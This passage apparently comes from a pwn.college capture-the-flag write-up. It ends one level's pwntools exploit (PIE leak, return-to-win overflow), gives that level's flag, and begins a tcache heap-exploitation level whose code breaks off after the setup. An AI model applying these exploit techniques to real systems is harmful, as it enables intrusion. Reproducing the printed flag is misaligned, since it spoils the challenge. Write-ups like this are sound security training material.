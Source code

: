 ```python
    echo(0, 0x10)
    target.recvuntil(b"Data: ")
    pie = (
        int.from_bytes(target.recvline().strip().ljust(0x8, b"\x00"), "little") - 0x1A93
    )
    win = pie + 0x1500
    target.success(f"pie: {hex(pie)}")
    target.success(f"win: {hex(win)}")

    payload = flat(
        b"A" * 0x10,
        win,
    )
    # raw_input("DEBUG")
    scanf(0, payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{IHuI-DZpMG1vv3R_3f2K4lz3jgL.0lM5MDL5cTNxgzW}`]

# Level 12.0

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to cause malloc() to return a stack pointer.

## Write-up

~_太简单，直接看我 exp 好了。_~

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level12.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")
```